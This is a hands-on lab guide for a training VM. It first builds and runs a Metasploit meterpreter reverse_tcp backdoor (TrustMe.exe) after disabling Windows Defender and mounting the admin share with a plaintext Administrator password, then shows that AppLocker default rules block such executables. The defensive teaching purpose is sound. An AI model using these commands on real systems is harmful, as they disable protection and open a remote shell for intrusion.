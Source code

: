 
# AppLocker

Applocker Instructions:

Let’s see what happens when we do not have **AppLocker** running.  We will set up a simple backdoor and have it connect back to the **Ubuntu** system.  Remember, the goal is not to show how we can bypass **EDR** and **Endpoint** products.  It is to create a simple backdoor and have it connect back.

Before we begin, we need to disable **Defender**. Start by opening an instance of Windows **Powershell**. Do this by clicking on the **Powershell** icon in the taskbar.

![](attachments/OpeningPowershell.png)

Next, run the following command in the **Powershell** terminal:

`Set-MpPreference -DisableRealtimeMonitoring $true`

![](attachments/applocker_disabledefender.png)

This will disable Defender for this session.

If you get angry red errors, that is ==**Ok**==, it means **Defender** is not running.

Let’s get started by opening a **Kali** instance.

![](attachments/OpeningKaliInstance.png)

Alternatively, you can click on the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Let's start by getting root access in our terminal.

`sudo su -`

Next, lets run the following command to get our IP address:

`ifconfig`

==**Please note the IP address of Y-O-U-R Ethernet adapter.**==

![](attachments/applocker_ifconfig.png)

Please note that my adapter is called **"eth0"** and my IP address is **"10.10.1.117"** Your IP Address and adapter name may be different.

First, we need to run the following command in order to mount our remote system to the correct directory:

<pre>mount -t cifs //10.10.1.209/c$ /mnt/windows-share -o username=Administrator,password=T@GEq5%r2XJh</pre>

Note: The IP address of `10.10.1.209` does not need to be changed in this command.

If you see the following error, it means that the device is already mounted.

![](attachments/mounterror.png)

If this is the case, just run the following command to navigate into the mounted directory:

<pre>cd /mnt/windows-share</pre>

Run the following commands to start a simple backdoor and backdoor listener: 

<pre>msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[YOUR LINUX IP] lport=4444 
-f exe -o /mnt/windows-share/TrustMe.exe</pre>

Now let's start the **Metasploit Handler**.  First, open a new Kali instance. The easiest way to do this is by clickin on the Kali icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Before doing anything else, we need to run the following command in our new terminal window:

<pre>msfconsole -q</pre>

![](attachments/msfconsole.png)

The Metasploit Handler successfully ran if the terminal now starts with `msf6 >`

Next, let's run the following:
<pre>use exploit/multi/handler</pre>

Now run all of the following commands to set the correct parameters:

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

<pre>set LHOST 10.10.1.117</pre>

Remember, your IP will be different!

<pre>exploit</pre>

It should look like this:

![](attachments/msf6commands.png)


Now, let’s download the malware and run it!

First, let's open a Windows command prompt. Do this by clicking on the icon in the taskbar.

![](attachments/OpeningWindowsCommandPrompt.png)

Once the prompt is open, let's run the following commands to run the TrustMe.exe file.

<pre>cd \</pre>

<pre>TrustMe.exe</pre>

![](attachments/runtrustme.png)

Back at your Kali terminal, you should now have a metasploit session!

![](attachments/meterpretersession.png)


Now, let’s stop this from happening!

First, let’s configure AppLocker.  To do this we will need to access the Local Security Policy on your Windows System.

Simply press the Windows key (lower left hand of your keyboard, looks like a Windows Logo)  then type Local Security.  It should bring up a menu like the one below, please select Local Security Policy.

![](attachments/localsecuritypolicy.png)


Next, we will need to configure AppLocker.  To do this, please go to Security Settings > Application Control Policies and  then AppLocker.


![](attachments/localsecpolicywindow.png)



Scroll down in the right hand pane. You will see there are 0 Rules enforced for all policies.  We will add in the default rules.  We will choose the defaults because we are far less likely to brick a system.

![](attachments/rulesoverview.png)


Please select each of the above Rule groups (Executable, Windows Installer, Script and Packaged) and for each one, right click in the area that says “There are no items to show in this view.” and then select “Create Default Rules”


![](attachments/createdefaultrules.png)

This should generate a subset of rules for each group.  It should look similar to how it does below: 


![](attachments/appliedrules.png)

For simplicity, you can click the next set of rules from the left panel as seen above.

Next, we need to enforce the rules:


To do this you will need to select AppLocker on the far left pane.  Then, you will need to select Configure rule enforcement.  This will open a pop-up, you will need to check Configured for each set of rules

![](attachments/ruleenforcement.png)



Now, we will need to start the Application Identity service.  This is done through pressing the Windows key and typing Services.  

![](attachments/services.png)

This will bring up the Services App.  Please select that and then double-click “Application Identity.”

![](attachments/applicationidentity.png)

Once the Application Identity Properties dialog is open, please press the Start button.  This will start the service.

![](attachments/startservice.png)

Next, open a command prompt and run gpupdate to force the policy change.

![](attachments/OpeningWindowsCommandPrompt.png)

<pre>gpupdate /force</pre>

Next, log out as ADHD and log back in as allowlist.  

You can do this easily by selecting the Windows icon and then the little white user icon:

![](attachments/Clipboard_2020-06-15-09-00-39.png)

The password is ADHD.

![](attachments/Clipboard_2020-06-15-08-46-49.png)



Now, navigate to the C:>\Tools directory with Windows Explorer and try to run some of the .exe files.

![](attachments/Clipboard_2020-06-15-08-48-09.png)

You will see that most of the .exe files will generate an error.




You should get an error.

To finish this lab, simply restart your class VM and log in as ADHD.






